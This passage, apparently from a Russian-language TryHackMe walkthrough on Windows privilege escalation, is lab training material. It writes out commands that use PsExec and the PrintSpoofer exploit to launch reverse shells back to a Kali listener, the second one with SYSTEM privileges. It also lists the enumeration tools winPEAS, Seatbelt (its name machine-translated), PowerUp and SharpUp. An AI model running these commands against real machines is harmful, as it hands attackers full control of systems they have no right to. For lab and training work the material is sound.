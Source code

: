 `C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe`

Запустите еще один слушатель на Kali.

Теперь в обратной оболочке «локальной службы», которую вы вызвали, запустите эксплойт PrintSpoofer, чтобы вызвать вторую обратную оболочку, работающую с привилегиями SYSTEM (соответственно обновите IP-адрес на IP-адрес вашего Kali):

`C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i`

### Ответьте на вопросы ниже
Прочитайте и следуйте указаниям выше.
```commandline
Ответ не нужен
```

## Задание 18
Было написано несколько инструментов, которые помогают обнаружить потенциальные повышения привилегий в Windows. 
Четыре из этих инструментов были включены в виртуальную машину Windows в каталоге C:\PrivEsc: 

`winPEASany.exe`

Ремень безопасности.exe

`PowerUp.ps1`

`SharpUp.exe`

### Ответьте на вопросы ниже
Поэкспериментируйте со всеми четырьмя инструментами, запуская их с разными опциями. Все ли из них идентифицируют 
методы, используемые в этой комнате? 
```commandline
Ответ не нужен
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)